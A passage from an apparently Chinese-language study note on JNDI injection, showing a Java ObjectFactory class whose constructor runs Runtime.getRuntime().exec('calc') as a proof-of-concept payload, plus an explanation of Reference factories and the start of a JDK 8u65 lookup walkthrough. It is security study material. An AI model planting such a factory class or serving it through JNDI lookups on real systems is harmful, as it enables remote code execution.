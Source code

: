 3. 给出 `TestRef` 的定义：
    ```java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.IOException;
    import java.rmi.RemoteException;
    import java.util.Hashtable;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/12 20:14
     */
    public class TestRef implements ObjectFactory {
        public TestRef() throws IOException {
            Runtime.getRuntime().exec("calc");
        }
    
        @Override
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
            System.out.println("Object is " + obj);
            System.out.println("name is " + name);
            System.out.println("nameCtx is " + nameCtx);
            System.out.println("environment is " + environment);
            return this;
        }
    }
    ```

4. 在实例化 `Reference` 对象时，用到了三个参数。实际上第二个参数应该是用来实例化第一个参数的工厂类。这里的“工厂”和开发常说的三种工厂模式，详见：

    > https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html
    > Object factories are described in the [Object Factories](https://docs.oracle.com/javase/jndi/tutorial/objects/factory/index.html) [![(in the Java Objects and the Directory trail)](JNDI-Injection/objectsIcon.gif)](JNDI-Injection//docs.oracle.com/javase/jndi/tutorial/objects/factory/index.html) lesson.

5. 其指出：

    > An object factory is a producer of objects. It accepts some information about how to create an object, such as a reference, and then returns an instance of that object. 

    它要求“工厂”类要实现 `javax.naming.spi.ObjectFactory` 接口，然后实现其方法。
    上述的例子为了简便将“工厂”和“产品”写在了一起。

## 2. `lookup` 过程过程和其对应的 JDNI + RMI + `Reference` 的漏洞原理（JDK 8u65）

### 2.1 `lookup` 过程（有的地方没有源码不好 debug）

1. debug 流程参考：
